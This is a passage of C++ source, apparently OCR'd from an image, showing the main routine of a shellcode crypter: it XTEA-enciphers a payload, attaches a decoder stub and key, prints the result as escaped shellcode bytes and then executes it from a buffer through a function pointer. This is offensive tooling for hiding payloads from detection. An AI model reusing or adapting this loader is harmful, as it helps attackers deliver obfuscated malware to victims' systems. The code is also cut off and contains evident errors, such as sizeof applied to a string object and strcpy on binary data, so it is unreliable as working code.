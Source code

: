 ```c
        }
    }
    cout << endl << endl;
    cout.copyfmt(oldState);
    return buffer;
}

int main() {

    vector<uint32_t> blocks = getblocks(payload);
    blocks.resize(blocks.size() + (blocks.size()%2));
    

    uint32_t *key = generatekey();
    string encoded = {};

    // Encipher the payload block pair by block pair
    // And store the result in the encoded string variable
    for(int i = 0; i < (blocks.size()-1); i+=2) {
        uint32_t currentblocks[2] = {blocks[i], blocks[i+1]};
        encipher(64, currentblocks, key);

        for(int j = 0; j < 2; j++) {
            for(int z = 24; z >=0; z-=8) {
                encoded += (unsigned char)((currentblocks[j] >> z) & 0xFF);
            }
        }
    }

    // Change the key from 4 uint32_t to a string of 16 char
    string strkey = {};
    for(int j = 0; j < 4; j++) {
        for(int z = 24; z >=0; z-=8) {
            strkey += (unsigned char)((key[j] >> z) & 0xFF);
        }
    }

    // Set number of blocks pairs and payload size
    stub[14] = (unsigned char)(encoded.size()&0xFF);
    stub[16] = (unsigned char)((blocks.size()/2)&0xFF);

    cout << "Key size : " << strkey.size() << endl;
    strkey = blocks2hexa(strkey);
    cout << "Encoded payload size : " << encoded.size() << endl;
    encoded = blocks2hexa(encoded);

    // Append stub + encoded payload + key
    stub += encoded;
    stub += strkey;

    cout << "XTEA Decoder stub + encoded payload + key size: " << stub.size() << endl;
    for(int i = 0; i < stub.size(); i++)
        cout << "\\x" << hex << setw(2) << setfill('0') << static_cast<uint32_t>((unsigned char)stub[i]);
    cout << endl << endl;
    
    // load then execute
    char shellcode[sizeof(stub)];
    strcpy(shellcode, stub.c_str());
    void (* run)() = (void (*)()) shellcode;
    run();
}
```
